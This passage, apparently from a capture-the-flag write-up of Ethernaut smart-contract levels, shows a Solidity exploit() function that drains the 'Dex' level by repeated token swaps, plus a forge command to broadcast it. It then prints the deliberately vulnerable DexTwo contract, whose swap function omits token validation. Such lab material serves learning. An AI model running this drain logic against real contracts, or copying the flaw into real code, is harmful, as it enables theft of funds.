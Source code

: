    ```
    address token1 = dex.token1();
    address token2 = dex.token2();
    function exploit() public{
        IERC20(token1).transferFrom(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602, address(this), 10);
        IERC20(token2).transferFrom(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602, address(this), 10);
        
        dex.approve(address(dex), type(uint64).max);

        dex.swap(token1, token2, dex.balanceOf(token1, address(this)));
        dex.swap(token2, token1, dex.balanceOf(token2, address(this)));
        dex.swap(token1, token2, dex.balanceOf(token1, address(this)));
        dex.swap(token2, token1, dex.balanceOf(token2, address(this)));
        dex.swap(token1, token2, dex.balanceOf(token1, address(this)));

        dex.swap(token2, token1, 45);        
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/DexSolve.s.sol:DexSolve --rpc-url $RPC_URL --broadcast
```

# 23 Dex Two

`DexTwo.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts/contracts/access/Ownable.sol';

contract DexTwo is Ownable(address(0x00)) {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

```